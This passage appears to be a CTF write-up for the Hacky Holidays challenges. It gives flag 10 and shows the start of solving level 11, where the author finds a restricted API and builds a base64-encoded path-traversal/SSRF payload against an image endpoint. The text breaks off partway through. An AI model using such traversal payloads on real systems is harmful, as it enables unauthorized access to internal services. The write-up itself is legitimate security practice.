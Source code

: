 + There is also a link for CTF level 11 inside the "here" parameter.

Flag 10 - `flag{99309f0f-1752-44a5-af1e-a03e4150757d}`

**Day 11 -CTF level 11**

+ After getting the link from CTF level 10 which is https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59 from the "here" parameter.

+ We get the workflow as :

There are photos and albums area with different hash IDs and different payloads. There is also an option of login area inside the https://hackyholidays.h1ctf.com/attack-box/login.

{F1139661}
{F1139662}

+ A message is also displayed as `We are currently developing an API, apologies for anything that doesn't work quite right`.

+ Thus, it means there can be /api endpoint being used inside r3c0n_server_4fdk59. Thus, finally visiting https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api and we can see different response codes:

**Request**

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api

**Response**

```
Grinch API Status Codes
HTTP Status Code	Explanation
200	Successful request with data returned
204	Successful request but with no data found
404	Invalid Endpoint
400	Invalid GET/POST variable
401	Unauthenticated Request or Invalid client IP
```

+ Also, if we visit any api endpoint like https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api/aaa, it'll respond as:

```{"error": "This endpoint cannot be visited from this IP address"}```

+ Thus, we can't visit directly, this must be a case of an SSRF based exploit but need to find the right parameter.

+ In the image parameter for album such as https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=59grop

Image was loaded with base64 encoded parameter:

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMyZmViYjE5NTcyYjEyNDM1YTZhMzkwYzA4ZThkM2RhLmpwZyIsImF1dGgiOiI3NmJhMDYxZDM1NmM2MjY0YTYwMDUyMTZlMTc3NmJhNiJ9

{F1139675}


+ Decoding the base64 parameter gives the output as:

{"image":"r3c0n_server_4fdk59\/uploads\/32febb19572b12435a6a390c08e8d3da.jpg","auth":"76ba061d356c6264a6005216e1776ba6"}

+ So, I thought to insert api path for ssrf exploit inside the image , so tried the payload as:

```
{"image":"r3c0n_server_4fdk59\/uploads\/..\/api/","auth":"76ba061d356c6264a6005216e1776ba6"} --> encoded base64 parameter --->eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGkvIiwiYXV0aCI6Ijc2YmEwNjFkMzU2YzYyNjRhNjAwNTIxNmUxNzc2YmE2In0=